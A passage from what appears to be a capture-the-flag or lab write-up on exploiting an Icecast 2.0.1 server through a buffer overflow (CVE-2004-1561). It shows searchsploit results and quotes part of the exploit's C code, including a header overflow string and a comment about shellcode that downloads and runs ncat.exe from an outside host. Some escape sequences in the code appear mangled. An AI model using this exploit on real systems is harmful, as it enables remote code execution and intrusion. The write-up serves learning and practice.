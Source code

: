 Now we'll search for exploits relating to Icecast using searchsploit:

```
searchsploit Icecast                        
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Icecast 1.1.x/1.3.x - Directory Traversal                                                  | multiple/remote/20972.txt
Icecast 1.1.x/1.3.x - Slash File Name Denial of Service                                    | multiple/dos/20973.txt
Icecast 1.3.7/1.3.8 - 'print_client()' Format String                                       | windows/remote/20582.c
Icecast 1.x - AVLLib Buffer Overflow                                                       | unix/remote/21363.c
Icecast 2.0.1 (Win32) - Remote Code Execution (1)                                          | windows/remote/568.c
Icecast 2.0.1 (Win32) - Remote Code Execution (2)                                          | windows/remote/573.c
Icecast 2.0.1 (Windows x86) - Header Overwrite (Metasploit)                                | windows_x86/remote/16763.rb
Icecast 2.x - XSL Parser Multiple Vulnerabilities                                          | multiple/remote/25238.txt
icecast server 1.3.12 - Directory Traversal Information Disclosure                         | linux/remote/21602.txt
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The 'Icecast 2.0.1 (Win32) - Remote Code Execution' exploits are the  most interesting two options here. A little bit of Googling leads us to  the following webpage: <https://www.exploit-db.com/exploits/568>
This relates to the this CVE: **CVE-2004-1561**

## Initial Exploitation

### The original buffer overflow code

This is a simple buffer overflow attack that allows us to get remote code execution. It is made using C. The exploit is particularly nice (or dangerous) because we don't need to do any more complex buffer overflow techniques such as using CALL ESP or JMP ESP to  jump to a different part of the program's execution once we get the  buffer overflow to occur. Once we overflow the buffer it immediatly starts overwriting the return  address which allows us to insert shellcode into the program and get a  shell easily.

The most interesting part of the C code begins from line 57 (we don't display most of the shellcode here since it's around 30 lines long):

```
#define VER "0.1" 
#define PORT 8000 
#define BUFFSZ2048 
#define TIMEOUT 3 
#define EXEC"GET / HTTP/1.0rn" 
                "arn" "arn" "arn" "arn" "arn" "arn" "arn" "arn" 
                "arn" "arn" "arn" "arn" "arn" "arn" "arn" "arn" 
                "arn" "arn" "arn" "arn" "arn" "arn" "arn" "arn" 
                "arn" "arn" "arn" "arn" "arn" "arn" "arn" 
                "xcc" 

//web download and execution shellcode 
//which downloads http://www.elitehaven.net/ncat.exe 
```